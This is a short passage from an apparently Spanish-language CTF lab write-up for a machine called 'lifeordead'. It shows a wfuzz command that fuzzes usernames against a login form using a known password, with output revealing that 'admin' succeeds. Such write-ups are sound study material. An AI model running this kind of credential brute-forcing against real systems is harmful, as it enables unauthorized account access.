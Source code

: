 ![image-center](/assets/images/posts/lifeordead-login.png){: .align-center}


# Intrusión
---
## Username Fuzzing - Login Form

Probaremos las credenciales, yo lo haría como el usuario `admin` que es lo más común a probar, pero automatizaremos este proceso con `wfuzz`

~~~ bash
wfuzz -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d 'username=FUZZ&password=PASSWORDADMINSUPERSECRET' --hl 94 http://lifeordead.dl

Target: http://lifeordead.dl/
Total requests: 8295455

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000002:   302        0 L      0 W        0 Ch        "admin"
~~~
